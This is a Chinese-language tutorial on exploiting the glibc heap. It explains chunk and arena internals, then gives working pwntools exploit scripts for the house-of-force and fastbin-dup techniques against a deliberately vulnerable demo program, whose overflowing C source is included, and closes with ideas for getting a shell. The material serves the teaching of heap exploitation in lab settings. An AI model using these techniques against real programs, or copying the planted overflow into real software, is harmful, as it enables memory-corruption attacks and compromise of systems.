








GNU libc 下堆利用总结(x86)
导论
堆 (heap) 是虚拟内存上连续的内存块，其处于低地址端，从小地址向大地址增长，这些内存块可以在程序运行时按需动态分配（ 大小不定，程序运行时无法预知需要多少内存), 这个特点，和栈 (stack)相比, 使得内存分配和回收要十分谨慎，既要高速，也要减少内存块的碎片化。
针对这些问题，需要设计不同的算法和机制进行专门管理，其具体表现就是 libc 的malloc和free的实现方式。
因此，对于不同的操作系统，其背后的实现算法有可能不同。(即 libc 不同，注意libc不属于内核部分，但malloc依赖内核里某些基础函数，如若在Linux内核下的mmap或brk)
本文探讨的是GNU 的 libc 的演进迭代历史，以及各个版本的漏洞和利用方式。GNU libc（glibc）广泛应用在各种 Linux的发行版本，有很高的研究价值。
GNU libc 的 malloc 原理和行为
malloc_chunks
调用libc的malloc申请一块内存，如不出意外，它会返回一个指针(这里用malloc ptr表示)，但对于内存管理器来说，由于其需要对内存进行管理，需要对分配的内存进行加头储存必要信息，所以每次调用malloc，内存管理器获取的地址是malloc ptr的值后退16字节的地址，这个地址开始的内存块除了包含用户申请的内存块，还包含内存块的元信息(前8个字节表示前一个malloc_chunk的大小，后8个字节表示当前malloc_chunk的大小) 如下图所示：
关于malloc_chunk的说明：
-
图中的size是指单前chunk的大小，数值等于user_data的大小 + size这个块的大小（即8字节），但是从源码看malloc_chunk这个结构体，它是包含pre_size那一块的，但为何不需把它加入size里？这里要引入size里的最后三位的用途
-
size的最后三位分别是：NON_MAIN_ARENA、IS_MMAPED和PRE_INUSE。这里先解析PRE_INUSE的用途。当PRE_INUSE是1时，表示前面一个chunk还没有被用户释放，为0时则相反。后面在unlink时会利用这位的信息决定否和前面一个chunk合并，减少碎片化。
现在设想这样一个场景，某个chunk B，它的size里的PRE_INUSE是1，那么size块前面的8字节的块本来是表示前面那一个chunk A的大小的，但是由于PRE_INUSE=1，用户没有释放A。对于管理器而言，pre_size这个信息没有意义，所以那8字节的块可以被用户信息覆盖，只要用户释放的时候，从新写回来就可以了。也就是说，user_data和pre_size可以overlap。
-
以字节为单位，malloc_chunk的最小大小为32，即0x20。malloc_chunk以16字节大小递增，如比0x20大小的chunk大的chunk中，最小的chunk应该是0x30，不存在它们之间的。这样做既是为了对齐，也是为了储存某些free_chunk的元数据，比如后面会讲到的双向指针。而且，由2知道，后三位是不算入size里的，如在内存里读到那个地方是0x21, chunk的大小应该是0x20.
-
根据上面一点，malloc_chunk的大小应该是0x20、0x30、0x40、等等，对应的user_data大小应该是0x18、0x28、0x38等等，但是，由于malloc是在程序runtime调用的函数，其大小由用户决定，因此如果调用malloc(0x17), 底层的malloc_chunk大小是0x20, 但调用malloc(0x19), 其对应的malloc_chunk大小应该是0x30。这样会导致内存浪费，但从内存对齐以及减少碎片化的角度看，是一个折中的方案。
Arena
用户调用malloc会在堆(heap)里动态划分内存，为了减少碎片化和提高查询速度，会引入诸如单向链表、双向链表等数据结构，这些结构的元数据(如单向链表的头)，不能完全放在堆上(动态变化，不稳定)。从源码上看，堆初始化需要初始一个叫main_arena的结构体，显然这个结构体的是在盏(stack)上的，而这个结构体存放的就是堆的那些被释放的内存的元数据。形象点说，main_arena就是heap的一个账本。之所以叫main_arena, 是因为其为主线程的arena，对于多线程的程序，各自线程里也有自己的arena，这些arena之间组成一个单向链表。线程的arena留到tcache再讲，下面主要讨论main_arena :

- mutex: 互斥锁，读写的时候自动加锁，多线程情况下会有性能问题，进而后面引入了tcache
- flags: 包含对应的heap 是否为连续的内存块
- has_fastchunks: fastbin是否为空的标记(boolean值，double word), 这个区域以及后面的4个字节是在glibc v2.27引入，之前的版本，这个字段是合在flags里。
- fastbins：对于那些大小在0x20到0xb0的malloc_chunk, 统一称为fastbin，用户释放这些chunk的时候，它们不会参与前面的chunk合并，而是按照大小组织起来，相同大小的chunk放在同一个单向链表里，FIFO，链表头存放在arena fastbins的对应位置。
- top: 位置最高的那个chunk的位置(指针)，其实这个chunk就是heap的空余大小，当需要划分新的内存块时，会首先重这里切割。
- last_remainder: 略(具体可参考下面的house of orange 里的unsorted bins attack)
- unsortedbin：这些bin不限制大小，组成一个双向的环状链表，通过arena的fd 和 bk链接起来，即unsortedbin fd 指向第一个chunk，unsortedbin bk指向
- smallbins: 类似unsortedbin, 但大小要区分，与fasbin大小有部分重合，FIFO
- largebins: 类似unsortedbin，大小不限。
GUN libc演变和利用技巧
House of force
通过溢出改写top chunk 头信息，利用整数溢出达到任意写
Fastbins dup
利用double free漏洞，改写fastbin单向链表，实现任意写
Unsafe-unlink
[todo]
最初版的DL malloc，改写unsortedbin 的fd 和bk，达到一个双向的写。
Safe-unlink
[todo]
针对上述问题，libc增加了校验，但通过构造假chunk，依旧可以绕过。
XOR-safe-unlink
[todo]
libc 2.31增加了安全校验，chunk的地址不会直接储存在heap上，而是拿它所在的地址和它本身xor，结合地址本身的ASLR机制，这实质上是对地址进行了加密. 所有依赖ASLR的绕过，最直接有效都是需要某种地址泄漏。
House of Sprit
[todo]
House of Lore
[todo]
House of Rabbit
[todo]
House of Orange
[todo]
glibc与堆相关的术语
- DL malloc
- pt malloc
- Chunks
- Arena
- malloc_chunk
结论
参考文献
house of force
本文介绍一种被称为house of force的 heap溢出利用技巧。
这是一种通过溢出改写top_chunk header信息进而达到任意写技巧。
基本信息
命令行打开house_of_force :

可见demo程序泄露了puts函数以及heap的地址，且提供三个选项：
-
调用malloc
调用malloc可以控制申请内存的大小以及输入的内容， 这个功能只能用四次。
-
打印target
target 是这个程序的全局变量， 且写死为hello，我们第一个目标就是改写它。
-
退出
用ldd查看改该二进制的依赖:

可见这个二进制的的动态链接库指定了一个自定义的地址，而libc也指向了特定的版本。
用pwntools下的checksec查看该二进制的基本运行时安全措施:

我们关注标红部分，No PIE (position independant executable) 意味着这个二进制没有ASLR保护。（这是为了减少复杂度故意设置，不过即使打开ASLR，有地址泄露，理论上也不难绕过）RUNPATH是指该二进制运行时的动态链接库的搜索地址（一般来说，该地址非默认时会导致运行的核心调用库被篡改，这是为了链接特定libc库的举措）
运行时行为debug
为方便查看heap的变化，下面采用 pwndbg 调试, 这是一个gdb 的插件，它集成很多方便的命令，以及提供好看的编码高亮。
用命令gdb -q ./house_of_force 启动debuger，用命令run(或者简写r), 然后选择1，需要大小的24字节的内存，写入内容aaaa，回车，最后ctrl+c开始debug:

这时，先用命令vmmap查看当前的memory map:

蓝色部分显示确实有heap分配了，且开始的位置为0x405000， 与开始时泄露的地址一致。
我们用命令vis_heap_chunks(或简写vis) 查看当前heap的样子：

如上图，我们确实看到一个大小为0x20的malloc chunk, 以及我们写入的“aaaa\n”的ASCII码（注意大小端）且指出了top_chunk的位置。
当然，我们也可以用命令top_chunk来查看top_chunk信息:

由于我们申请了24字节的内存，这块内存至少可以存储23个a(换行占一个字节)，很自然想到，如果我们写很多a，heap会是怎么样呢？

这时可见原来的0x0000000000020fe1变成了0x6161616161616161，而这恰恰是我们写入的a, 原来的0x0000000000020fe1表示top_chunk的大小，如今被改成了x6161616161616161。
也就是说我们有机会改写top_chunk的大小，打破heap的边界。
这就是这个demo的漏洞。下面我们利用这个漏洞来达到任意写。
任意写
由前面的memory map知道，heap是从0x405000 开始的，而top_chunk的大小可以控制，理论上说0x405000往后走的内存都可以被当做heap，都能被分配，都能被写（前提是它们能被写，否则会有segmen falt，毕竟前面checksec看到NX 是打开的。）但0x405000之前的呢？比如 target
target 变量位于0x404070，由前面的memory map 可知其为可写部分（一般来说，非静态全局变量都在这里）但0x404070在heap 0x405000之前，heap 地址只能往大处增长，如何覆盖到一个小的数值？
容易想到，整数溢出。由于heap的地址只能往大处增长，但不能无穷增长，到最大地址0xffffffffffffffff (32位的是0xffffffff)后，再继续增长就要从0x0开始了，进而有可能覆盖到target。
基本思想有了，下面描述一下具体做法：
- 先malloc一段小内存，写入内容溢出，使得系统误以为top_chunk大小为0xffffffffffffffff
- 然后再malloc一段大内存，使得top_chunk位置越过最大内存地址，回到开始，且在target附近
- 最后在再malloc一段内存，使得刚好覆盖target的位置，进而我们可以控制target及其附近的内容。

用pwntool编写exp house_of_force.py
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("house_of_force")
libc = elf.libc
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
def malloc(size, data):
io.send("1")
io.sendafter("malloc size: ", f"{size}")
io.sendafter("malloc data: ", data)
io.recvuntil("your option is: ")
def delta(x, y):
return (0xffffffffffffffff - x) + y
io = start()
io.recvuntil("puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.recvuntil("heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil("your option is: ")
io.timeout = 0.1
log.info(f"heap: 0x{heap:02x}")
log.info(f"target: 0x{elf.sym.target:02x}")
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))
distance = delta(heap+0x20, elf.sym.target-0x20)
malloc(distance, b"a")
log.info(f"delta between heap & main(): 0x{delta(heap, elf.sym.main):02x}")
io.interactive()
测试确实改写可target:

get shell
达到任意写get shell 比较容易了，这里提供几个思路:
- 通过任意写注入shellcode， malloc hook 触发
- 找rop gadget，同样malloc hook 触发。
- ret2libc 调用execve
这里提供一个调用system,函数的示例： house_of_force_shell.py
one more thing
在开发这个demo时， 全局变量target 最初我写作char* target 但编译后对应的位置储存的却是 char** 而真正的数据不可写。但改成char target[]后，target的对应地方才直接是数据，这和c语言大部分的教材说的char* a等价于char a[]不符。具体原因要研究编译器的实现，这个后续会进行。
另外，在默认情况下，函数printf会占用heap来做buffer， 函数setvbuf(stdout, NULL, _IONBF, 0); 可去除这个影响。
以上实现，可参考demo的源码 house_of_force.c
#include<stdio.h>
#include<stdlib.h>
#include<stdbool.h>
#include<unistd.h>
#include<malloc.h>
#define NAME "house of force\n"
#define LINE "-------------------------------\n"
// gcc -no-pie -Wl,-rpath,../libc/glibc_2.28_no-tcache/,-dynamic-linker,../libc/glibc_2.28_no-tcache/ld.so.2 -g house_of_force.c -o house_of_force
void print_banner(void) {
printf(NAME);
}
void print_leak(void) {
printf("puts() @ %p\n", &puts);
char* a = malloc(0x88);
printf("heap @ %p\n", a-0x10);
free(a);
}
void print_option(int malloc_count) {
printf("1) malloc %d/4\n", malloc_count);
puts("2) target");
puts("3) quit");
printf("your option is: ");
}
unsigned long read_num(void) {
char buf[31];
unsigned long num;
read(0, buf, 31);
num = strtoul(buf, 0, 10);
return num;
}
void do_malloc(int* malloc_count) {
if (*malloc_count <= 3){
printf("malloc size: ");
char* buf = malloc(read_num());
if (buf != NULL){
printf("malloc data: ");
read(0, buf, malloc_usable_size(buf)+8);
*malloc_count+=1;
printf(LINE);
}
}
else{
printf("Sorry, no more space for you to malloc.\n");
printf(LINE);
}
}
char target[] = "hello";
// char* target = "hello";
void do_target(char* target) {
printf("The target is: %s\n", target);
printf(LINE);
}
void do_exit(void) {
printf("exiting...\n");
printf(LINE);
exit(0);
}
int main(void) {
setvbuf(stdout, NULL, _IONBF, 0);
printf(LINE);
print_banner();
printf(LINE);
print_leak();
printf(LINE);
int malloc_count = 0;
print_option(malloc_count);
unsigned long option_num;
// char* target = "Have a nice day!";
option_num = read_num();
while (true) {
switch (option_num) {
case 1:
do_malloc(&malloc_count);
break;
case 2:
do_target(target);
break;
case 3:
do_exit();
break;
}
print_option(malloc_count);
option_num = read_num();
printf(LINE);
}
return 0;
}
fastbin dup
本文介绍一种叫fastbin dup的 heap 溢出利用技巧
本质上这是一种double free漏洞，通过double free改写数据链表指针，达到任意写的目的。
首先，我们先了解一下fastbin内存的管理机制：
fastbin机制
众所周知，Linux系统下，调用malloc函数，libc库会动态地分配内存。
所谓“动态”， 就是指malloc的大小编译时未知，运行时才能知道，比如等待用户输入。这样，一个不可避免的问题是：大小不一的内存块，如何高效利用？为达到高效，要尽可能保持内存连片，要尽可能避免出现新调用的
malloc在旧内存块里找不到合适大小的，或者即使能找到，但太大，又要分割，导致进一步的碎片化。工程经验上来说，小块的内存申请的频率比较高，且造成碎片化的可能性很高，所以要引入链表的数据结构进行管理。
对于libc来说，小内存块(0x20 - 0x80)都属于fastbin的范畴。下面以 fastbin_demo 为例，阐述fastbin大小的内存申请和释放的过程：
在gdb中加载 fastbin_demo ，在main函数打断点，逐行运行程序到下图位置：

这时，已经运行了三行malloc代码，用命令vis查看当前heap的状态：

根据导论， 由上图可知总共有三个malloc_chunk，大小都是0x20。（这是64位系统malloc分配的最小大小，即使malloc(0)也会分配0x20）
用命令fastbin查看当前fastbin的状态：

这个各个大小的fastbin都是空的（因为已经申请的还没释放）
然后，我们在执行下面的free(a);:

这时，再查看vis和fastbin

可见，heap无明显变化，0x20大小的fastbin指向了原来a指向的内存块（因为执行了free(a)）
接下来，再执行free(b), 同样查看vis和fastbin:

这时heap的0x405030的位置写入了0x0000000000405000， （这恰恰是上一个chunk的位置）而0x20大小的fastbin则出现了链表表示。
查看源码，可知各个大小的fastbin其实就是释放出来的内存，他们之间通过单向链表的形式链接起来，每次释放一个这样大小的内存块，其地址都会被加入到这个链表里，所以就管理来说，只要我知道了这个单向链表的头，我就能找到这个链表的每一个内存块，不管你在哪个内存地址。
因此，系统只需记录头的位置即可，每次加入新块，系统更新该块的位置（作为头），同时在该块里写入之前的头（维持链表）
而这个头其实就是储存在main_arena里：

我们再运行一行代码：

内存变化符合之前描述。
这时，如果我们再需要一块0x20大小的内存块，比如再malloc一次：

libc管理算法会优先从fastbin链表中查找对应大小的链表，如果非空，直接pop第一个出来(LIFO模式)，剩下的块再保持链表。从而无需再申请新的内存块，避免因内存里遍布小内存块，而导致的内存碎片化问题。
以上就是fastbin的运行机制，简单来说可以归结为：
当一块小内存块要被释放时，其地址会被写入到arena里，然后原来arena上的那个地址会被写入到这块内存的fd位置，（作为单向链表的指针）当系统需要一块小内存，而对应的单向链表也是非空的时候，arena的那个地址会被返回，然后根据这个地址指向的内存块，找到块内存在这个链表里的下一块，把下一块的地址写到arena上（就是去除单向链表第一个元素的操作）

由上可知，如果对同一块内存重复释放，每次释放，底层的操作都会照做一遍，这样会打乱它原有对于单向链表的假设，引入安全漏洞。
double free
double free也就是对某个内存块free两次。我们先依据fastbin机制，抽象分析一下这种操作，内存将会是一个怎么样的状态：
接上图，如果我们对黄色的malloc_chunk再free一遍，依据fastbin机制，这时内存变化应该如下图所示：

可见，同一块内存被free两次后，fastbin的单向链表会变成一个环状， 且有内存泄露。如果接下来又有malloc，且malloc需要的malloc_chunk大小恰好有是这个fastbin的链表所代表的大小。这时，内存的变化如下：

这时，由于malloc之后，我有了黄色内存块的控制，可以读写，但是由于之前环状结构的影响，使得libc依旧认为黄色内存块是fastbin的单向链表的节点，libc依旧相信这个节点里的指针只要非空，都是指向下一个节点。换言之，我可以控制黄色内存块后的元素在任意位置（比如图中的红色内存块），然后多malloc几次，顺着这个指向，终可以malloc到那块内存上，进而我有其读写的权限。
任意写
下面以 fastbin_dup 为例，double free技巧的应用：

该程序会泄露puts函数运行时地址，然后要求输入用户名，最后就是四个功能的循环。我们的目标是：改写target的值，表明我们有改写该程序运行时数据的能力。
程序的基本安全措施如下：

按照前面描述的double free的技巧，我们采用以下操作：malloc一次，free两次

程序终止，似乎已经察觉到了double free的问题， 我们用gdb 调试，查看调用栈：

可见其确实有一个防止double free的安全检测，我们按照提示，分析源码，看具体阻隔原因:
首先，找到对应版本的libc源码（这里是2.30），找到对应代码位置：

可见其确实有防止double free的安全检测，但是这个安全检测的原理是，对比需要释放malloc_chunk的地址，和当前arena上记录的地址，如果一致（说明这是一个double free）则报错，终止运行。
前面知道， arena记录的地址其实就是指向空闲malloc_chunk单向链表的首个节点，当重复释放这个节点才会触发这个安全检测。一个很自然的想法是，如果我不是重复释放首个节点呢？是不是就可以绕过这个安全屏障了？下面测试一下这个想法：

为方便查看内存状态，这里是在gdb下调试运行，先malloc两次，申请两个内存块（A和B），然后依次把它们free掉，这时fastbin里的0x20单向链表长度应该是2，如下图：

注意这时链表的顺序应该是BA（先free的是A）如果我这时再free B， 明显会触发安全检测，但如果free A呢？

可见，我们成功绕过了安全检测，且这时的fastbin链表出现了前面描述的环状结构：

既然double free通过了，接下来应该就是分析malloc后，内存如何变化。
留意上图中的heap内存， 如果这时malloc一次，我可以获取0x405000指向的malloc_chunk的控制权，可以改写0x405010 -- 0x405028这里面的内存（这里不考虑heap溢出的情况, 其实在libc 2.30也没有这个问题），且这时fastbin的0x20头变成0x405020, 但是环状结构的原因，头的下一个节点又指向了0x405000这块内存节点。而我可以控制这块内存，写入不同的东西，让libc觉得，这个节点后还有节点，具体指向哪里由我写入的东西决定。a.k.a. 这是一个任意写。


回到最初的目标：改写target。
首先，这个target是被裹在一个叫user的结构体里。user里还有另外一个叫username的，程序运行最早输入的东西会放在这里。

如上图，username可以写入，且在target前面，一个很自然的想法是，如果有溢出，改写target就很容易了，可惜没有。
可以使用前面的double free技巧，如果我控制那个单向链表指向user这个结构体。根据fastbin机制，几次malloc后必然会获得这个结构体的控制，进而可以写入东西，改写target。
下面用pwntools测试这个方案：
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF("fastbin_dup")
libc = elf.libc
index = 0
gs = '''
continue
'''
def start():
if args.GDB:
return gdb.debug(elf.path, gdbscript=gs)
else:
return process(elf.path)
def malloc(size, data):
global index
io.send("1")
io.sendafter("malloc size: ", f"{size}")
io.sendafter("malloc data: ", data)
io.recvuntil("your option is: ")
index += 1
return index - 1
def free(i):
io.send("2")
io.sendafter("index: ", str(i))
io.recvuntil("your option is: ")
io = start()
io.recvuntil("puts @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.recvuntil("Enter your name: ",)
# io.send('jc')
io.send(p64(0x00)+p64(0x21))
io.recvuntil("your option is: ")
io.timeout = 0.1
chunk_a = malloc(1, 'aaaa')
chunk_b = malloc(1, 'bbbb')
free(chunk_a)
free(chunk_b)
free(chunk_a)
chunk_c = malloc(1, p64(elf.sym.user))
malloc(1, 'a')
malloc(1, 'a')
malloc(1, 'hello')
io.interactive()
经测试，target确实被改成了hello

需要注意的一点是：诱导fastbin的0x20单向链表指向user结构体时，需要把这个结构体打扮成一个malloc_chunk, 大小为0x20， 否则无法通过另外一个和chunk大小相关的检测。而这种打扮可以通过输入username来实现。下图为不打扮时遭遇的终止的call stack：

Get shell
达到任意写，get shell 就不难了，这里提供三个思路：
- 通过任意写注入shellcode， malloc hook 触发
- 找rop gadget，同样malloc hook 触发。
- ret2libc 调用execve